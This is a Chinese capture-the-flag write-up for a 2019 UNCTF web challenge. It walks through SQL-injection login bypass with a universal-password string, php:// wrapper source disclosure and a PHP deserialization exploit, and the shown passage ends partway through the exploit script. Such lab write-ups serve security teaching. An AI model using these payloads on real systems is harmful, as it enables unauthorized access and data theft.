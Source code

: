 ### K&K战队的老家
#### 原理知识
1）	由于网站开发者在进行代码编写过程中未对输入参数进行严格校验及过滤，导致黑客可以通过构造SQL语句，获取目标网站后台数据库中的信息。

2）	SQL注入是输入特定的SQL语句达到SQL注入的效果，不同类型的SQL数据库类型所对应的SQL语句不一样，因此，尝试SQL注入测试前，需要获取目标网站数据库类型，通常，根据测试者的测试经验或采用不同数据库类型的测试的方法进行测试，有效获得目标网站真实数据库类型。

3）	PHP是弱类型语言

4）	PHP魔术方法可以通过反序列化进行触发

#### 解题过程
1.  打开浏览器，访问目标主机，发现登录框

![](https://ctfwp.wetolink.com/2019unctf/k_and_k/cb9602cd3c83cd58635bff01fff42823.png)

1.  构造万能密码 ‘||1||’登录

![](https://ctfwp.wetolink.com/2019unctf/k_and_k/f781cac39386f55caf82e4667e1c9e4c.png)

1.  发现/home.php?m=debug无法访问

![](https://ctfwp.wetolink.com/2019unctf/k_and_k/0bb67653980950e30858fc09cb65a80c.png)

1.  通过m参数利用php伪协议绕过过滤读取题目源代码

![](https://ctfwp.wetolink.com/2019unctf/k_and_k/3774d088ce498995f46d4f841dd9455f.png)

1.  通过代码审计可知access.php和flag.php，同时发现备份文件access.php.bak

![](https://ctfwp.wetolink.com/2019unctf/k_and_k/b4b60f19b3b4838665dec5d8eb9e10c0.png)

![](https://ctfwp.wetolink.com/2019unctf/k_and_k/13f3c91cfa843cf87aa6361d5dbf9755.png)

1.  通过代码审计构造反序列化漏洞利用

exp.php
```
<?php
class debug {
	public $choose = "2aaaa";
	public $id = 2;
	public $username = "debuger";
	public $forbidden = NULL;
	public $access_token = "";
	public $ob = NULL;
	public $funny = NULL;
}
class session {
	public $access_token = '3ecReK&key';
}
function cookie_decode($str) {
	$data = urldecode($str);
	$data = substr($data, 1);
	$arr = explode('&', $data);
	$cipher = '';
	foreach($arr as $value) {
		$num = hexdec($value);
		$num = $num - 240;
		$cipher = $cipher.'%'.dechex($num);
	}
	$key = urldecode($cipher);
	$key = base64_decode($key);
	return $key;
}
function cookie_encode($str) {
```